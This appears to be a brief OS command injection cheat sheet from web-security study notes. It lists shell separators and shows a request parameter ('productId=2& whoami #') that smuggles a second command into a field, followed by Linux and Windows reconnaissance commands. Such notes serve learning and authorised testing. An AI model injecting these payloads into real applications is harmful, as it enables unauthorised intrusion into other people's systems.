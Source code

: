 
Concatenator: &, &&, |, ||, ;
Comment: #
Remember to encode (Burp: CTRL+U)

Use # to comment out portion of strings, example:
productId=2&storeId=2 ===> productId=2( & whoami # )&storeId=2     (...) must be encoded


Purpose of command

### Name of current user

Linux `whoami`

Windows `whoami`

#### Operating system

Linux `uname -a`

Windows `ver`

#### Network configuration

Linux `ifconfig`

Windows `ipconfig /all`

#### Network connections

Linux `netstat -an`

Windows `netstat -an`

#### Running processes

Linux `ps -ef`

Windows `tasklist`
